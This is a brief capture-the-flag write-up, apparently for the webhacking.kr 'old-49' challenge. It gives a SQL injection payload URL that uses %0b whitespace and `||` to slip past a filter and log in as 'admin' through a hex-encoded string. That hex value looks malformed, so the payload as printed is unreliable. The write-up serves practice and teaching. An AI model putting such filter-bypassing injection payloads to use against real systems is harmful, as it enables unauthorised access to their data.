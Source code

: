 ```yaml
---
layout: default
title: old-49
---
```




another sql injection.
here we want to insert this: `1 or id = 'admin'`
```
https://webhacking.kr/challenge/web-24/?lv=6%0b||id=0x661646D696E%0b
```

